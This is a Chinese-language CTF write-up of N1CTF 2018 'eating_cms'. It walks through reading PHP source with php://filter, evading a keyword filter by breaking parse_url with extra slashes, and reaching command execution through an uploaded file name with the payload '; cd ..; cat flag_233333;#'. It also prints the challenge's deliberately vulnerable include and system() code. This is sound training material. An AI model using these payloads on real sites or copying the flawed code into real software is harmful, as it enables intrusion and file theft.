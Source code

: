 ```yaml
---
title: '[N1CTF 2018]eating_cms'
date: 2024-08-10 21:27:38
tags:
     - 题解
     - cms
categories: 刷题笔记
---
```


### [N1CTF 2018]eating_cms

打开页面，是个登录框，我们首先想到sql注入，但尝试了多次后没啥效果，我们进行抓包看看

![image-20240811214053859](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112140065.png)

发现了一个sql语句，测试之后发现很难绕过，我们访问register.php进行注册

注册登录后，我们发现了一个网页

<!--m>

![image-20240811214253847](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112142337.png)

观察网页的url，我们尝试用伪协议来读取源码

```
http://a0dfe74c-60ea-4eaa-bef4-7426c35d7048.node5.buuoj.cn:81/user.php?page=php://filter/convert.base64-encode/resource=user
```

得到user.php的源码

```
<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");

}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>

```

我们再读取function.php的源码

```
<?php
session_start();
require_once "config.php";
function Hacker()
{
    Header("Location: hacker.php");
    die();
}


function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function filter_directory_guest()
{
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function Filter($string)
{
    global $mysqli;
    $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
    $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
    for ($i = 0; $i < strlen($string); $i++) {
        if (strpos("$whitelist", $string[$i]) === false) {
            Hacker();
        }
    }
    if (preg_match("/$blacklist/is", $string)) {
        Hacker();
    }
    if (is_string($string)) {
        return $mysqli->real_escape_string($string);
    } else {
        return "";
    }
}

function sql_query($sql_query)
{
    global $mysqli;
    $res = $mysqli->query($sql_query);
    return $res;
}

function login($user, $pass)
{
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "select * from `albert_users` where `username_which_you_do_not_know`= '$user' and `password_which_you_do_not_know_too` = '$pass'";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
    if ($res->num_rows) {
        $data = $res->fetch_array();
        $_SESSION['user'] = $data[username_which_you_do_not_know];
        $_SESSION['login'] = 1;
        $_SESSION['isadmin'] = $data[isadmin_which_you_do_not_know_too_too];
        return true;
    } else {
        return false;
    }
    return;
}

function updateadmin($level,$user)
{
    $sql = "update `albert_users` set `isadmin_which_you_do_not_know_too_too` = '$level' where `username_which_you_do_not_know`='$user' ";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
//    die($res);
    if ($res == 1) {
        return true;
    } else {
        return false;
    }
    return;
}

function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}

function logout()
{
    session_destroy();
    Header("Location: index.php");
}

?>


```

我们发现不能直接读取到flag文件，这里用parse_url解析漏洞绕过

parse_url:
`本函数解析一个 URL 并返回一个关联数组，包含在 URL 中出现的各种组成部分。 本函数不是用来验证给定 URL 的合法性的，只是将其分解为下面列出的部分。不完整的 URL 也被接受，parse_url() 会尝试尽量正确地将其解析。`

```
$keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
```

测试一下：

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7be16183649c0f628864d3cd366c42cd.png)

结果

```
array(3) { ["host"]=> string(9) "127.0.0.1" ["path"]=> string(9) "/user.php" ["query"]=> string(69) "page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg" }

```

再看看`$_SERVER['REQUEST_URI']`的返回值。

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/f1a63519eb0b1b07f07a6da67af26f57.png)

结果
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/6fc12e1b6776ebc85f92c48bc8b2ad9f.png)

题目源码的意思是对$_SERVER[‘REQUEST_URI’]进行parse_url解析。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5b812582f9d7553587b9719d5b70819f.png)

用伪协议直接读ffffllllaaaaggg会被检测到

`有一个办法是使parse_url解析出错，从而无法进入下面的foreach判断。`
只要在user.php前面加上三个/

![image-20240811220013961](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112200085.png)

得到

```
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>

```

我们访问m4aaannngggeee

```
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/upload.html";

?>

```

我们进入templates/upload.html页面

![image-20240811220200390](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112202670.png)

我们在源码里发现另一个php文件

![image-20240811220300834](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112203865.png)

我们用伪协议读取

```
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "<img src='data:image/png;base64,".$picdata."'></img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>

```

没有任何过滤，非常明显的文件名代码执行漏洞，接着就是找到真正的上传点
在根据细节回顾的时候，找到上传点`/user.php?page=m4aaannngggeee`

![image-20240811220855712](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112208767.png)

用filename进行命令执行

传文件抓包，修改文件名。

过滤了 /

所以最后payload

```
;cd ..;cat flag_233333;#
```

![image-20240811221223432](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112212622.png)
